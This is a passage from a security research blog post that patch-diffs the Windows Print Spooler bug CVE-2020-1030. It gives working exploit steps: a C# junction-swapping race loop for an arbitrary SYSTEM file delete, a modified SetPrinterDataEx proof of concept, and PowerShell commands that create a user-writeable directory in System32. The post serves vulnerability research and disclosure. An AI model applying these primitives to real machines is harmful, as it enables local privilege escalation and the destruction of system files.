	- `IsModuleFilePathAllowed` - Determines if user supplied *SpoolDirectory* matches the printer assigned driver directory.

Both of the validation functions are called with the path resulting from `GetFinalPathNameByHandleW` of the SpoolerDirectory, rather than the path passed in from the user as *SpoolDirectory* directly providing a bit more legitimacy (it exists on the system and a handle can be opened to it) to the path . As we aren't using any symlinks or reparse points *in the final path that we reparse to*, this implies the `IsModuleFilePathAllowed` is the check that we are failing. Both of these functions did not exist in the original patch for *CVE-2020-1030*. I wonder when these checks were introduced. Or perhaps this already was a subsequent CVE?  Whatever the case, it is interesting that these two checks are the only blockers standing in our way to reviving *CVE-2020-1030*. 

## Aside - Potential CVE-2021-WWWW
Before we dig into `IsModuleFilePathAllowed` and any other blockers, I want to make sure we don't miss something. The addition of these new checks to validate the created *SpoolerDirectory* in `BuildPrinterInfo` has **introduced a new TOCTOU bug**. As I explained during my test of the original *CVE-2020-1030* PoC, I was disappointed my TOCTOU junction directory idea failed. But it only half failed. 

>
<sub> Procmon - Figure 2 - CVE-2020-1030 PoC Run with latest *localspl.dll*</sub>

When I try to create the directory *%SYSTEMDIR%/spool/drivers/x64/4*, the directory is created, but only lives briefly, failing the `IsModuleFilePathAllowed` check. As a result, a subsequent `DeleteFile` is called on the directory and an error is reported. This `DeleteFile` is interesting because it doesn't follow best practices for privileged file operations.  Namely, it uses a user controlled resource to define a path for directory creation [1], creates the directory [2], recognizes an error ([3] or [4]), and then uses the same user controlled resource (which by now could have been changed) to undo the first directory creation [5].  

###  Fixing Bugs with Bugs - New Delete Primitive
This new `DeleteFile` primitive was introduced recently. I dug in a little bit and discovered it first appeared in  [September 14, 2021—KB5005565 - OS Builds 19041.1237, 19042.1237, and 19043.1237](https://support.microsoft.com/en-au/topic/september-14-2021-kb5005565-os-builds-19041-1237-19042-1237-and-19043-1237-292cf8ed-f97b-4cd8-9883-32b71e3e6b44).  It might have been introduced to mitigate `CreateDirectory` primitive from *CVE-2020-1030*, or perhaps some other bug. 

The ability to delete an arbitrary file or directory as `SYSTEM` is a powerful primitive for exploitation. It also is CVE worthy with recent examples [Windows Error Reporting](https://medium.com/csis-techblog/cve-2020-1088-yet-another-arbitrary-delete-eop-a00b97d8c3e2) and also our beloved Spooler (*CVE-2020-17014*).


<sub>[CVE-2020-17014 | Windows Print Spooler Elevation of Privilege Vulnerability -Arbitrary Delete EoP](https://youtu.be/fOUOFGdiNTA?t=699)</sub>

This new [TOCTOU](https://cwe.mitre.org/data/definitions/367.html) arbitrary file delete bug seems like a tight race.  But it's possible with the help of James Forshaw's [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet) library. I created a quick program that would create a junction directory and rotate the [reparse point](https://docs.microsoft.com/en-us/windows/win32/fileio/reparse-points) of the junction path from the original PoC path to a path I wanted to delete. 

```c#
while (true)
{
	junction.SetMountPoint(driverDirectoryPath, null);
	junction.SetMountPoint(deletePath, null);
}
```

I teed up the original CVE-2020-1030 PoC and paired it with my junction directory spinner to produce the following. 


<sub> `DeleteFile` primitive deleting "deleteMe" directory </sub>

Yep. Delete bug. Once again shout out to [Forshaw](https://twitter.com/tiraniddo) and his many toolsets helping researchers bend Windows to their will.


## Auditing IsModuleFilePathAllowed

Back to reviving *CVE-2020-1030*. The `IsModuleFilePathAllowed` function was recently discussed for a spooler LPE  Blackhat [talk](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-Diving-Into-Spooler-Discovering-Lpe-And-Rce-Vulnerabilities-In-Windows-Printer.pdf)  from last summer. The talk detailed several of the CVEs and mitigations introduced over the past couple of years, with some being more successful than others. The speakers in the talk even discus the details another CVE they found by eluding `IsModuleFilePathAllowed` with the use of an [alternate data stream](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/e2b19412-a925-4360-b009-86e3b8a020c8). Perhaps there is hope yet for us? 

### Static Analysis

The `IsModuleFilePathAllowed` function wasn't created to mitigate *CVE-2020-1030*, rather it already existed in the **localspl.dll** version before CVE-2020-1030 and after. There were 2 references to the function and now there are 3.  



As mentioned in the [article](https://www.accenture.com/us-en/blogs/cyber-defense/discovering-exploiting-shutting-down-dangerous-windows-print-spooler-vulnerability#:~:text=IsModuleFilePathAllowed), it was used in the `LoadLibrary` primitive code within in `localspl!SplLoadLibraryTheCopyFileModule` to make sure that the [Point and Print DLL](https://docs.microsoft.com/en-us/windows-hardware/drivers/print/point-and-print-dlls) Spooler is about to load exists within "allowed" paths. 

*CVE-2020-1030* takes advantage of this knowledge to create a directory that meets the `LoadLibrary` primitive requirements. We see in this patch to `BuildPrinterInfo`, `IsModuleFilePathAllowed` is now being used to restrict directory creation to those `LoadLibrary` primitive paths. 

From `BuildPrinterInfo` our psuedo code:
```c
// Check the path name from the handle.  
if ((pszSpoolerDirUNCPathFromHandle == NULL) ||
IsPathAlink(pszSpoolerDirUNCPathFromHandle) ||				//[3]
IsModuleFilePathAllowed(pszSpoolerDirUNCPathFromHandle, 	//[4]
    pDriverDirectory)) // CVE-2020-1030 mitigation
{
    //FAIL - Null out printer SpoolDir
    pIniPrinter->pSpoolDir = 0;
}
else
{
    //CreateDirectory Primitive Succeeds
    SetSecurityInfo(hSpoolDir, ..., EverybodyDACL)
    dwStatus = 0;
}
```

That's when it hit me. My statement **isn't true**:

>`IsModuleFilePathAllowed` is now being used to restrict directory creation to those `LoadLibrary` primitive paths.

It is subtle, but just like the original patch for *CVE-2020-1030* only addressed one of the primitives (`CreateDirectory`), this `IsModuleFilePathAllowed` validation check is only checking **one** specific path! 

### CreateDirectory Lives!
>```c
>IsModuleFilePathAllowed(pszSpoolerDirUNCPathFromHandle,pDriverDirectory))
>```

We pass in *%SYSTEMDIR%/spool/drivers/x64/4* in the PoC for *pszSpoolerDirUNCPathFromHandle* and the driver directory is *%SYSTEMDIR%/spool/drivers/x64*.  Without even looking at the decompilation of `IsModuleFilePathAllowed` I'm going to venture and say that the paths match.  This check isn't in a loop or considering any other paths! If you use **any other path, the `CreateDirectory` primitive is alive and well!**

I had to try it...

```c
LPWSTR pszDriverPath = L"C:\\Users\\User\\Desktop\\junction\\createDirectoryLives";
DWORD cbData;
/*
...
*/
cbData = ((DWORD)wcslen(pszDriverPath) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"\\", L"SpoolDirectory", REG_SZ, (LPBYTE)pszDriverPath, cbData);
```
<sub> Quick PoC change giving arbitrary directory name *createDirectoryLives*</sub>

```powershell
PS C:\Users\User\Desktop> New-Item -ItemType Junction -Path "C:\Users\User\Desktop\junction"  -Target "C:\Windows\System32\"
```
<sub>Set the junction directory to point to System32</sub>

Run the modified PoC as shown.



Yep. *C:\Windows\system32\createDirectoryLives* is my newly created user writeable directory.

```powershell

PS C:\Users\User\Desktop> icacls.exe "C:\Windows\System32\createDirectoryLives\"
C:\Windows\System32\createDirectoryLives\ BUILTIN\Users:(CI)(S,WD,AD,REA,RA)
                                          NT AUTHORITY\SYSTEM:(R,W,D,WDAC,WO,DC)
                                          CREATOR OWNER:(OI)(CI)(IO)(R,W,D,WDAC,WO,DC)
                                          NT AUTHORITY\SYSTEM:(OI)(CI)(R,W,D,WDAC,WO,DC)
                                          BUILTIN\Administrators:(OI)(CI)(R,W,D,WDAC,WO,DC)
                                          NT SERVICE\TrustedInstaller:(I)(F)
                                          NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                          NT AUTHORITY\SYSTEM:(I)(F)
                                          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Administrators:(I)(F)
                                          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Users:(I)(RX)
                                          BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                          CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files

PS C:\Users\User\Desktop> echo "it's alive!  it's alive!!" > C:\Windows\System32\createDirectoryLives\win.txt

PS C:\Users\User\Desktop> type  C:\Windows\System32\createDirectoryLives\win.txt
it's alive!  it's alive!!
```
<sub> Verifying *C:\Windows\System32\createDirectoryLives*</sub>

Did we do it?? Did we revive *CVE-2020-1030*?  Not quite. The *%SYSTEMDIR%/spool/drivers/x64/4* path used for *CVE-2020-1030* is still restricted.  This powerful resurrected `CreateDirectory` primitive, the ability to create a user writeable directory as `SYSTEM`, is likely enough to gain privileged code execution by several means. We could go about looking for other `LoadLibrary` scenarios like those used for *CVE-2020-1030*, but we are going to do better.  At this point in the analysis, I was pretty sure that *CVE-2020-1030* would live again. Maybe you can tell by the length of this blog post that there is a *path* forward, but discovering those details we will save for the next post.

## Ideal CVE Analysis Complete
	
We have already transitioned through all the states of my self proclaimed ideal *CVE Analysis*.


```mermaid

graph TD;

A[CVE-2020-1030] --> A1;
A --> A2;
A --> A3;
A --> A4;
A --> A5;

A1[Blog Post] --> F;
A2[Github PoC] --> F;
A3[Twitter Brag] --> F;
A4[CVE Description] --> F;
A5[Security Patch] --> F;

F[CVE Analysis + Patch Diffing];
F --> I[System Comprehension]
F --> G[Vulnerability Classification];
F --> H[Root Cause Identification];
G --> J[Develop Mitigation Requirements / Novel Understanding];
H --> J;
I --> J;
J --> K[Discover New and/or Related Vulnerabilities]

```

We fully understand the CVE, its primitives, the patch mitigations, and even the weaknesses of the mitigations.  We already discovered a new arbitrary delete vulnerability, so perhaps we have come full circle? Join me next time as we transition from **patch diffing** yet another Spooler bug to **finding** [yet another Spooler bug](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2020-1030%20-%20Part%202%20-%20Finding%20YASP.md) ...

---


